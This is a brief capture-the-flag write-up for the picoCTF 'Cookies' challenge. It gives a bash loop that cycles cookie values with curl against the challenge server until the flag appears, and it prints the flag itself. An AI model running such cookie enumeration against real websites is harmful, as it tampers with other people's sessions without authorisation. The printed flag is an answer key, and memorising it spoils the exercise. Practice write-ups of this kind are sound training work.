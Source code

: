 # Cookies

# Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)
# Solution

-  We iterate over a loop sending cookies until we found the flag 
``` bash
for i in {1..30}; do curl -s  http://mercury.picoctf.net:21485/check -H "Cookie: name=$i" | grep pico; done;

# Flag
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```


